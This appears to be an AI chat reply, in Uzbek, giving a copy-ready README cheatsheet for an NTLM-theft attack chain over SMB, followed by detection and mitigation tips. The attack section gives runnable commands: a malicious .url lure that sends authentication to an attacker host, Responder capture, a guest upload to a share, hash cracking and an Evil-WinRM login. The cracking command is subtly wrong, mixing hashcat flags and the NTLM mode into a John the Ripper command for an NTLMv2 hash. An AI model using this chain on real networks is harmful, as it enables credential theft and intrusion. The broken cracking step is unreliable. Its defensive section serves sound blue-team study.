

Zo‘r 👍 Quyida **barchasi bir joyda jamlangan, GitHub README.md uchun tayyor TO‘LIQ cheatsheet** berilgan.
Buni **to‘g‘ridan-to‘g‘ri nusxa ko‘chirib repo’ga qo‘yishingiz mumkin**.

---

# 🧨 NTLM Theft via SMB — Full Cheatsheet

## 🔍 Overview (Qisqa tushuntirish)

Ushbu attack chain quyidagi holatda ishlaydi:

* Sizda **SMB Data share** ga **read/write** ruxsat mavjud
* `ntlm_theft` yordamida **malicious `.url` fayl** yaratiladi
* Fayl **ochilganda yoki ko‘rilganda**, NTLM authentication **attacker** tomon yuboriladi
* **Responder** NTLMv2 hash’ni ushlab oladi
* Hash **John the Ripper** bilan crack qilinadi
* Topilgan credential bilan **Evil-WinRM** orqali tizimga kiriladi

🎯 **Natija:** Initial Access + Privilege Escalation imkoniyati

---

## 🧾 Attack Chain (1 Line)

```text
SMB Write → NTLM Theft → Responder → John → Evil-WinRM
```

---

## 🧩 Attack Flow Diagram

### 📌 High-Level Diagram



---

### 📊 Step-by-Step Flow

```text
[ Attacker ]
     |
     | SMB write access
     v
[ SMB Share ]
     |
     | Malicious .url file
     v
[ Victim ]
     |
     | Auto NTLM authentication
     v
[ Responder ]
     |
     | NTLMv2 hash
     v
[ John the Ripper ]
     |
     | Cleartext password
     v
[ Evil-WinRM ]
     |
     | Initial Access
     v
[ Privilege Escalation ]
```

---

## 1️⃣ NTLM Theft Payload Yaratish

```bash
python3 ntlm_theft.py \
  --generate url \
  --server <ATTACKER_IP> \
  --filename invoice
```

📄 **Natija:**

```text
invoice-(icon).url
```

➡️ Ushbu fayl ko‘rilganda NTLM auth avtomatik yuboriladi

---

## 2️⃣ Responder Ishga Tushirish

```bash
sudo responder -I tun0
```

🔹 NTLMv2 hash’larni ushlab oladi
🔹 SMB / HTTP / LDAP autentifikatsiyalarni tutadi

---

## 3️⃣ SMB Share’ga Payload Yuklash

```bash
smbclient -U 'guest' //<TARGET_IP>/Data
```

```bash
put "invoice-(icon).url"
```

✅ Fayl yuklandi
⚠️ Kimdir share’ni ochsa → **NTLM hash leak**

---

## 4️⃣ NTLM Hash Olish (Responder Output)

📌 **Misol:**

```text
AUTOMATE::DOMAIN:HASH1:HASH2:CHALLENGE
```

---

## 5️⃣ Hash’ni Crack Qilish (John the Ripper)

```bash
echo '<NTLM_HASH>' > hash.txt
```

```bash
john -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

🔧 **Parametrlar:**

* `-m 1000` → NTLM
* `-a 0` → Wordlist attack

🔑 **Natija:**

```text
AUTOMATE:Password123!
```

---

## 6️⃣ Evil-WinRM orqali Login

```bash
evil-winrm -i <TARGET_IP> -u AUTOMATE -p 'Password123!'
```

✅ **Initial Access qo‘lga kiritildi**
🚀 Endi **Privilege Escalation** mumkin

---

## 🛡️ Detection & Mitigation

### 🔍 Detection (Blue Team)

#### 🌐 Network-Level

* NTLM authentication **tashqi IP** ga ketayotganini aniqlash
* IDS/IPS:

  * SMB signing o‘chiq trafik
  * Responder pattern’lari
* Kuzatiladigan portlar:

  * `445`, `80`, `389`

#### 🪟 Windows Host-Level

* Event Logs:

  * `4624` → NTLM Logon (Type 3)
  * `4648` → Explicit credential usage
* SMB share’da shubhali fayllar:

  * `.url`
  * `.lnk`
  * `.scf`
  * `.library-ms`

---

### 🛡️ Mitigation (Himoyalanish)

#### 🔐 Authentication Hardening

* ❌ NTLM’ni o‘chirish (imkon bo‘lsa)
* ✅ Kerberos’dan foydalanish
* 🔒 SMB Signing yoqish

```powershell
Set-SmbServerConfiguration -EnableSecuritySignature $true -Force
```

---

#### 🌐 Network Protection

* Outbound NTLM trafikni bloklash
* Firewall:

  * SMB (445) tashqi tarmoqqa chiqmasin
* LLMNR / NBNS o‘chirish (GPO):

```text
Computer Configuration →
Administrative Templates →
Network →
DNS Client →
Turn Off Multicast Name Resolution = Enabled
```

---

#### 📂 SMB Share Security

* Write access’ni minimal qilish
* Guest / Anonymous access’ni o‘chirish
* Read-only ruxsatlar

---

#### 👀 User Awareness

* `.url` fayllarni ochmaslik
* SMB share’dan kelgan shubhali fayllarga ehtiyot bo‘lish

---

## 🧪 Detection Queries (Examples)

### 🪟 Windows Event Log

```text
EventID=4624 AND AuthenticationPackageName=NTLM
```

### 🌐 SIEM / Network

```text
NTLM authentication to external IP
```

---

## 📚 MITRE ATT&CK Mapping

| Tactic            | Technique                     |
| ----------------- | ----------------------------- |
| Initial Access    | T1187 – Forced Authentication |
| Credential Access | T1110                         |
| Lateral Movement  | T1021.006 (WinRM)             |

---

## ✅ Summary

| Stage               | Risk     | Mitigation           |
| ------------------- | -------- | -------------------- |
| SMB Write Access    | High     | Least privilege      |
| NTLM Authentication | Critical | Disable NTLM         |
| Hash Capture        | High     | SMB Signing          |
| Password Crack      | Medium   | Strong passwords     |
| Evil-WinRM          | Critical | Network segmentation |

---

## ⚠️ Disclaimer

> Ushbu material **faqatgina ta’limiy va ruxsat etilgan pentest / lab muhitlari** uchun mo‘ljallangan.
> Ruxsatsiz foydalanish **qonuniy javobgarlikka olib keladi**.


